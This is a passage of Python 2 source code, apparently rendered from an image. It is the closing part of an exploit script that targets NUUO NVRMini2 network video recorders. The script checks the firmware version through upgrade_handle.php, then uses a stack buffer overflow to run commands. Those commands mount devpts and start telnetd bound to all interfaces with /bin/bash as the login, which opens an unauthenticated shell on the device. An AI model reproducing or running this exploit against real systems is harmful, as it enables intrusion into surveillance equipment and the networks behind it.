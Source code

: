 ```python 
    sock.sendall(exec_request)
    data = sock.recv(1024)
    sock.close()

    # We should get a 500 Internal error in response
    return data.find('500') != -1

##
# Quickly tries to grab the version of the target. If the target is
# using anything other than 3.7 or 3.8 then we'll bail out since
# haven't tested on any other targets
##
def check_target(ip, port):
    index = requests.get('http://' + ip + ':' + port + "/upgrade_handle.php?cmd=getcurrentinfo")
    return (index.text.find('<Titan>03.08') != -1 or index.text.find('<Titan>03.07') != -1)

if __name__ == "__main__":

    if (len(sys.argv) != 3):
        print "Usage: python nvrmini2_enable_telnet.py <ipv4 address> <port>"
        sys.exit(1)

    ip = sys.argv[1]
    port = sys.argv[2]

    if int(port) > 65535:
        print('[-] Invalid port parameter')
        sys.exit(0)

    if len(ip.split('.')) != 4:
        print('[-] Invalid IP address parameter')
        sys.exit(0)

    print '[+] Checking for a valid target...'
    if (check_target(ip, port) == False):
        print('[-] The target is not a NVRMini2 or its using an untested version.')
        sys.exit(0)
    print '[+] Valid target!'

    if (stack_buffer_overflow('mount -t devpts devpts /dev/pts', ip, port) == False):
        print('[-] Mount failed')
        sys.exit(0)

    if (stack_buffer_overflow('/bin/sh -c "/usr/sbin/telnetd -l /bin/bash -b 0.0.0.0"&', ip, port) == False):
        print('[-] telnetd bind failed')
        sys.exit(0)

    print('[+] Success!')
```
